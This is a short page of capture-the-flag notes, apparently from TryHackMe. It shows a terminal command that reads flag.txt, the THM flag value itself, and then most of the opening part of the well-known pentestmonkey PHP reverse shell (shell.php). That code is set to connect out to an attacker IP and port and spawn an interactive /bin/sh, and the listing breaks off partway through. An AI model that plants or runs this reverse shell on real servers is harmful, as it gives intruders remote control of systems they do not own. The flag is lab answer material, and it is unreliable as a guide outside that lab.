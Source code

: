 ```
terminal: ls
cat flag.txt

THM{202bb14ed12120b31300cfbbbdd35998786b44e5}

```


PHP reverse shell monkey    #php 
- `shell.php` 
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10'; // attacker IP
$port = 1234;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
```